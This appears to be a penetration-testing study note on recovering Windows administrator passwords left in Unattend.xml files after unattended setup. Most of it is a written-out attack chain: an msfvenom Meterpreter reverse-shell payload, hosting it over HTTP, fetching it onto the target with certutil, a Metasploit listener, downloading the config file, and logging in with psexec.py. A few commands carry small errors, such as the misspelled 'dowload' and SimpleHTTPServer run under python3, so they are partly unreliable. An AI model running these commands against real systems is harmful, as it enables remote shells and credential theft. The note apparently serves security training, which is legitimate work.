 ```yaml
---
up: "[[Windows Credential Dumping]]"
tools:
  - "[[PsExec]]"
---
```


# Passwords in Windows Configuration File

- Windows can automate a variety of repetitive tasks
- Mass installation/deployment of Windows is done through the Unattended Windows Setup utility
- This tool utilizes configuration files that contain specific configurations and used account credentials
- If the configuration files are left on the target system after installation passwords can be leaked

## Unattended Windows Setup

- Typically utilizes one of these configuration file:
	- C:\\Windows\\Panther\\Unattend.xml
	- C:\\Windows\\Panther\\Autounattend.xml
- Passwords may be base64 encoded

## Demonstration

Generate msfvenom payload for windows server

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=1234 -f exe > payload.exe
```

Then start a python http server:

```bash
python3 -m SimpleHTTPServer 80
```

Dowload file from webserver:

```bash
certutil -urlcache -f http://<ip>/<file> <file>
```

```bash
use multi/handler
set payload/windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST <my_ip>
```

Search for file:

```bash
> search -f unattend.xml
> dowload unattend.xml
```

If ``PlainText`` option is set to false then password is base64 encoded.

```bash
psexec.py Administrator@$TRG
Password:
>
```
